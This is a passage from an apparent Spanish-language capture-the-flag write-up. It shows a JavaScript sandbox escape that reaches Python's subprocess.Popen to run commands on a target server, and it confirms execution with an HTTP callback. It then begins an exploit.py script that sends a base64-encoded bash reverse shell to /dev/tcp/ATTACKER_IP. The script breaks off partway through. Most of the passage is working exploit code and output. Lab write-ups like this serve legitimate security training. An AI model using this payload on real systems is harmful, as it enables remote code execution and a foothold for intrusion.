 ```js
    return null;
}

var popen_class = findpopen(obj);
if (popen_class) {
    var result = popen_class(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    result;
} else {
    "No se encontró Popen";
}
```

Con esto en la pagina vamos a probar que realmente se estan ejecutando comandos, por lo que vamos abrir un servidor de `python3`:

```shell
python3 -m http.server 80
```

Y ahora si le damos a `Run Command` veremos esto en la pagina:

```
Error: 'NoneType' object is not callable
```

Pero si volvemos a donde tenemos el servidor de `python3`:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.82 - - [19/Sep/2025 11:09:57] "GET / HTTP/1.1" 200 -
```

Veremos que ha funcionado realmente por detras, por lo que vamos a crear un `exploit` para ejecutarlo y que nos proporcione una `reverse shell` de esta forma:

> exploit.py

```python
import requests
import json

# CONFIGURACIÓN - MODIFICA ESTOS VALORES
TARGET_URL = 'http://<IP>:8000'           # URL del servidor vulnerable
ATTACKER_IP = '<IP_ATTACKER>'             # Tu IP de atacante
ATTACKER_PORT = '<PORT>'                  # Puerto para la reverse shell

# Comando para reverse shell (bash)
reverse_shell_cmd = f'bash -i >& /dev/tcp/{ATTACKER_IP}/{ATTACKER_PORT} 0>&1'

# Codificar en base64 para evitar problemas de comillas
import base64
encoded_cmd = base64.b64encode(reverse_shell_cmd.encode()).decode()
final_cmd = f'echo {encoded_cmd} | base64 -d | bash'

# Código JavaScript que se ejecutará en el servidor
js_code = f"""
var cmd = "{final_cmd}";
var a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__;
var obj = a(a(a, "__class__"), "__base__");

function findpopen(o) {{
    for (var i in o.__subclasses__()) {{
        var item = o.__subclasses__()[i];
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {{
            return item;
        }}
        if (item.__name__ != "type") {{
            var result = findpopen(item);
```